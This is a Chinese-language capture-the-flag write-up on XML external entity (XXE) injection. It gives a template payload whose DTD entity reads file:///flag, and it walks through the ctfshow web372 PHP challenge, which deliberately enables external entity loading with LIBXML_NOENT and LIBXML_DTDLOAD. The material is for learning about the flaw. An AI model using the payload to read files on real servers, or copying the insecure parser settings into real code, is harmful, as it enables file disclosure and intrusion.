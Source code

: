 # XML 注入
## 模板

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ELEMENT root (ctfshow)>
    <!ELEMENT ctfshow ANY>
    <!ENTITY payload SYSTEM "file:///flag">
]>
<root>
    <ctfshow>&payload;</ctfshow>
</root>
```
DTD 可以定义 XML 文件的标签格式，也可以定义一个实体来访问文件。

插入 payload
```
&payload;
```

## 例题 ctfshow web372
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);
```

启用可以使用外部实体。
```php
libxml_disable_entity_loader(false);
```

`LIBXML_DTDLOAD` 允许加载 DTD，`LIBXML_NOENT` 允许解析 entity。作位或运算代表两个合并。这个允许我们进行 XXE 注入。
```
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
```

注意，在这道题中根节点是必要的。根据本地调试，可发现 `$creds` 为：
```
SimpleXMLElement Object
(
    [ctfshow] => SimpleXMLElement Object
        (
        )
)
```